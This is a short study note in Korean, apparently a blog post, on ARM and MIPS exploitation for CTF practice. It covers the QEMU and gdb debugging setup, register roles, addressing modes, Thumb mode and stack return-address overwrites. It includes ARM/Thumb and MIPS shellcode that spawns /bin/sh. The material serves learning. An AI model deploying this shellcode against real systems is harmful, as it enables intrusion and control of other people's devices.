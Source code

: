 ```yaml
---
title: ARM & MIPS Exploit
date: 2019-04-29 15:00:53
categories:
- ARM Exploit
- MIPS Exploit
tags:
- Buffer Overflow
- Return Oriented Programming
---
```


## ARM Exploit & MIPS Exploit



## Environment 

<https://training-1.tistory.com/189>

-> sudo ln -s /usr/arm-linux-gnueabi/lib/ld-linux.so.3 /usr/arm-linux-gnueabi/lib/ld-linux-armhf.so.3 해줘야함

w = process(["qemu-mips-static", "-L", "/usr/mips-linux-gnu/","-g","8888","./ch65"]) 

(= qemu-mips-static -L /usr/mips-linux-gnu/ -g 8888 ./ch65 )하고

gdb-multiarch ./ch65 -ex 'set architecture mips' -ex 'target remote localhost:8888' -ex 'set endian big'

하면 따로 이미지 설치 안해도 디버깅&실행 할 수 있다.



## Exploit

arm은 RISC라 명령어가 무조건 4 byte

함수 프롤로그에서 lr을 스택에 저장하기 때문에 bof 공격 가능

함수 인자를 전달할때 스택을 사용할 수 없다ㅠㅠ 무조건 레지스터



<https://media.blackhat.com/bh-us-11/Le/BH_US_11_Le_ARM_Exploitation_ROPmap_Slides.pdf>

http://binoopang.tistory.com/attachment/cfile8.uf@2078EF184BCC1664B94A5B.pdf

<https://drive.google.com/file/d/0B_sx6nhKufWqRTdZemNETVhxVWM/view>



## Register

r11 = fp

r13 = sp

r14 = lr (bl로 호출 시)

r15 = pc



r0~r3 순서대로 인자

5개 이상은 스택



리턴 값 = r0



## Pre & Post Index Addressing

#### STR reg -> mem

|                    | r1    | *r1  | *(r1+12) |
| ------------------ | ----- | ---- | -------- |
| STR r0, [r1, #12]  | r1    |      | r0       |
| STR r0, [r1, #12]! | r1+12 |      | r0       |
| STR r0, [r1], #12  | r1+12 | r0   |          |
| STR r0, [r1]!, #12 | r1+12 | r0   |          |



#### LDR mem <- reg

|                    | r0       | r1    |
| ------------------ | -------- | ----- |
| LDR r0, [r1, #12]  | *(r1+12) | r1    |
| LDR r0, [r1, #12]! | *(r1+12) | r1+12 |
| LDR r0, [r1], #12  | *r1      | r1+12 |
| LDR r0, [r1]!, #12 | *r1      | r1+12 |



## ARM mode & Thumb mode

Thumb mode는 16bit 크기 명령어, r0~r7을 사용

CPSR register 5번째 bit 를 이용해 동작모드 변환

BX, BLX 명령을 이용해 모드 전환하며 Branch 수행

쉘코드 제작시 크기가 줄어듬



## shellcode

```asm
.syntax unified
.global main
.code 32
main:
    add  r3, pc, #1      /* add 0x1 to pc to prepare the switch to thumb mode */
    bx   r3              /* switch to thumb mode */
.thumb
    mov  r0, pc          /* move pc to r0 */
    adds r0, #14         /* make r0 to point to /bin//sh */
    str  r0, [sp, #4]    /* store /bin//sh to the stack */
    subs r1, r1, r1      /* put 0 in r1 */
    subs r2, r2, r2      /* put 0 in r2 */
    movs r7, #8          /* move 8 in r7 */
    str r2, [r0, r7]     /* store nullbytes at the end of /bin//sh */
    adds r7, #3          /* add 3 to r7 for execve syscall */
    svc  1               /* call execve */
    str  r7, [r5, #32]   /* thumb instruction for "/b" string */
    ldr  r1, [r5, #100]  /* thumb instruction for "in" string */
    cmp  r7, #0x2f       /* thumb instruction for "//" string */
    ldr  r3, [r6, #4]    /* thumb instruction for "sh" string */
```





# MIPS Exploit

mips 도 RISC

v0 이 리턴값

스택에 ra를 저장해둔다. (이거 덮으면 공격 가능)

t9를 통해 점프해서 이걸 이용한 가젯을 쓰면 된다



<https://go-madhat.github.io/mips_Hello_World/>

-> 레지스터 설명



## shellcode

```asm
        .text
        .global __start
__start:
        slti $a2, $zero, -1
        li $t7, 0x2f2f6269
        sw $t7, -12($sp)
        li $t6, 0x6e2f7368
        sw $t6, -8($sp)
        sw $zero, -4($sp)
        la $a0, -12($sp)
        slti $a1, $zero, -1
        li $v0, 4011
        syscall 0x40404
```



root-me 문제 풀었는데 write up 공개하면 ban이라고 해서 못올린당 ;_;
